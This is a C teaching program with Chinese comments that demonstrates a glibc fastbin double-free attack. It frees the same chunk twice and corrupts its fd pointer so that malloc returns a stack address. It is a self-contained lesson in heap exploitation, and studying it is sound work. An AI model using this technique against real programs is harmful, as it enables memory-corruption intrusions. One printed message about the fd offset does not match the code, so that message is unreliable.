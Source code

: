  ```c
 #include <stdio.h>
 #include <stdlib.h>
 #include <string.h>
 
 int main()
 {
     fprintf(stderr, "这个例子拓展自 fastbin_dup.c，通过欺骗 malloc 使得返回一个指向受控位置的指针（本例为栈上）\n");
     unsigned long long stack_var;
 
     fprintf(stderr, "我们想通过 malloc 申请到 %p.\n", 8+(char *)&stack_var);
 
     fprintf(stderr, "先申请3 个 chunk\n");
     char* a = malloc(8);
     strcpy(a, "AAAAAAAA");
     char* b = malloc(8);
     strcpy(b, "BBBBBBBB");
     char* c = malloc(8);
     strcpy(c, "CCCCCCCC");
     
     fprintf(stderr, "chunk a: %p\n", a);
     fprintf(stderr, "chunk b: %p\n", b);
     fprintf(stderr, "chunk c: %p\n", c);
 
     fprintf(stderr, "free 掉 chunk a\n");
     free(a);
 
     fprintf(stderr, "如果还对 %p 进行 free, 程序会崩溃。因为 %p 现在是 fastbin 的第一个\n", a, a);
     // free(a);
     fprintf(stderr, "先对 b %p 进行 free\n", b);
     free(b);
 
     fprintf(stderr, "接下来就可以对 %p 再次进行 free 了, 现在已经不是它在 fastbin 的第一个了\n", a);
     free(a);
 
     fprintf(stderr, "现在 fastbin 的链表是 [ %p, %p, %p ] 接下来通过修改 %p 上的内容来进行攻击.\n", a, b, a, a);
     unsigned long long *d = malloc(8);
 
     fprintf(stderr, "第一次 malloc(8): %p\n", d);
     char* e = malloc(8);
     strcpy(e, "EEEEEEEE");
     fprintf(stderr, "第二次 malloc(8): %p\n", e);
     fprintf(stderr, "现在 fastbin 表中只剩 [ %p ] 了\n", a);
     fprintf(stderr, "接下来往 %p 栈上写一个假的 size，这样 malloc 会误以为那里有一个空闲的 chunk，从而申请到栈上去\n", a);
     stack_var = 0x20;
 
     fprintf(stderr, "现在覆盖 %p 前面的 8 字节，修改 fd 指针指向 stack_var 前面 0x20 的位置\n", a);
     *d = (unsigned long long) (((char*)&stack_var) - sizeof(d));
     
     char* f = malloc(8);
     strcpy(f, "FFFFFFFF");
     fprintf(stderr, "第三次 malloc(8): %p, 把栈地址放到 fastbin 链表中\n", f);
     char* g = malloc(8);
     strcpy(g, "GGGGGGGG");
     fprintf(stderr, "这一次 malloc(8) 就申请到了栈上去: %p\n", g);
 }
 ```
